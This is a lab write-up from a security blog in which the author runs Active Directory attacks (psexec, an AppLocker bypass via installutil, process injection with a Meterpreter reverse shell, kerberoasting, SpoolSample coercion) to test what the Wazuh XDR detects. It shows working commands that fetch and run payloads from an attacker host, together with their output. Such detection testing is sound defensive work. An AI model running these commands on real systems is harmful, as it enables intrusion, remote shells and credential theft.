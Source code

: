 ```yaml
---
layout: post
title:  "Looking at Wazuh"
date:   2024-01-04 12:04:00 +1100
categories: Investigation
---
```


There's an open source XDR called Wazuh. [Wazuh - Open Source XDR. Open Source SIEM.](https://wazuh.com/). I wanted to see how some of the techniques taught in the OSEP course show up in an XDR and Wazuh is accessible so I put it in a lab.

### impacket-psexec

The first thing I ran was impacket-psexec.
```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec domain/administrator:Password01@192.168.239.130
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.239.130.....
[*] Found writable share ADMIN$
[*] Uploading file nvvENxrv.exe
[*] Opening SVCManager on 192.168.239.130.....
[*] Creating service XvHs on 192.168.239.130.....
[*] Starting service XvHs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.914]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
DC01
```

This was detected, and this is what it looked like.
![image of detection of psexec](/images/psexecdetection.png)

### UninstallForExe

There's an applocker bypass where the Microsoft signed executable installutil can be used to execute arbitrary code against default applocker rules. The UninstallForExe exploit I used can load and run any .net executable in memory, I ran rubeus, running a kerberoast with it. For the applocker configuration, I had all categories enforced, each with the default rules active.

```
C:\Users\mpeanutbutter\Desktop>powershell -c iwr http://192.168.239.128/misc/uninstallforexe.exe -o C:\users\public\uninstallforexe.exe
C:\Users\mpeanutbutter\Desktop>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\public\uninstallforexe.exe
Microsoft (R) .NET Framework Installation utility Version 4.7.3190.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Pulling executable from http://192.168.239.128/tools/rubeus.exe
Calling exe with the following arguments
 kerberoast /nowrap
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting
...
...
```

Wazuh didn't detect this, though all I had done with Wazuh was to install the server and agents.

### Process Injection

I ran a process injection that basically comes down to the following two lines of C# where the buf variable was msfvenom shell code.
```
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); 
```

Downloaded and executed the process injection shell. It was injecting into explorer.exe.
```
C:\Users\mpeanutbutter\Desktop>powershell -c iwr http://192.168.239.128/misc/shell.exe -o shell.exe
C:\Users\mpeanutbutter\Desktop>shell.exe
```

```
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://192.168.239.128:443
[*] Meterpreter session 1 opened (192.168.239.128:443 -> 192.168.239.133:49870) at 2024-01-03 19:35:18 -0500
meterpreter >
```

Wazuh also did not detect this. I haven't looked into Wazuh much, there might be some further configuration and rule/alert implementation that can make it better.


### Kerberoasting

I wanted to check if there was any detection of kerberoasting.
```
──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs domain.local/mpeanutbutter:Password01 -dc-ip 192.168.239.130
Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName  Name       MemberOf  PasswordLastSet             LastLogon                   Delegation    
--------------------  ---------  --------  --------------------------  --------------------------  -------------
http/fake             bhorseman            2023-11-29 03:57:56.368346  2023-12-19 13:24:10.306345  unconstrained 

```

GetUserSPNs found an SPN that I'd messed around with in the lab.

For this one there was a partial detection. It noticed the auth that GetUserSPNs did but didn't notice anything about the kerberoasting.

![image of detection of kerberoast](/images/kerberoastdetection.png)

### Unconstrained Delegation

Next I tried an unconstrained delegation attack. I set the unconstrained delegation on the client02 machine.

```
PS C:\Users\administrator> iwr http://192.168.239.128/tools/spoolsample64.exe -o spoolsample.exe
PS C:\Users\administrator> .\spoolsample dc01 client02
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01, CaptureServer: \\client02
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```
Seems the lab is patched for the spoolsample authentication coercion so I didn't collect the tickets from the DC.

Wazuh didn't detect the attempt.

So out of the box, Wazuh doesn't seem fantastic. The rabit hole probably goes deep on configuring and tuning it to be an effective XDR. 